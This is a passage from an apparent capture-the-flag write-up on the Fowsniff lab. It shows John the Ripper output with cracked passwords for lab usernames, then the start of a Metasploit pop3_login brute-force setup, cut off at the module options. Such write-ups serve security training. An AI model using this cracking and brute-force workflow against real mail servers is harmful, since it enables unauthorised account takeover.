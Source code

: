 ```
orlando12        (parede@fowsniff)     
apples01         (tegel@fowsniff)     
skyler22         (baksteen@fowsniff)     
mailcall         (mauer@fowsniff)     
07011972         (sciana@fowsniff)     
carp4ever        (mursten@fowsniff)     
bilbo101         (mustikka@fowsniff)     
8g 0:00:00:01 DONE (2025-08-05 03:55) 6.611g/s 11853Kp/s 11853Kc/s 30316KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

### Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?
I saved the usernames and passwords to separate files each, users.txt and passwords.txt. <br>
The usernames: <br>
```
fowsniffCTF cat users.txt    
seina
parede
tegel
baksteen
mauer
sciana
mursten
mustikka
```
The passwords: <br>
```
fowsniffCTF cat passwords.txt 
scoobydoo2
orlando12
apples01
skyler22
mailcall
07011972
carp4ever
bilbo101
```
I then fired up metasploit and searched for 'pop3'. <br>
![Challenge](/assets/img/posts/fowsniff/meta.png)
In the options, I set the rhosts as the ip given, set the pass_file and the user_file. <br>
```
msf6 auxiliary(scanner/pop3/pop3_login) > options

Module options (auxiliary/scanner/pop3/pop3_login):

```
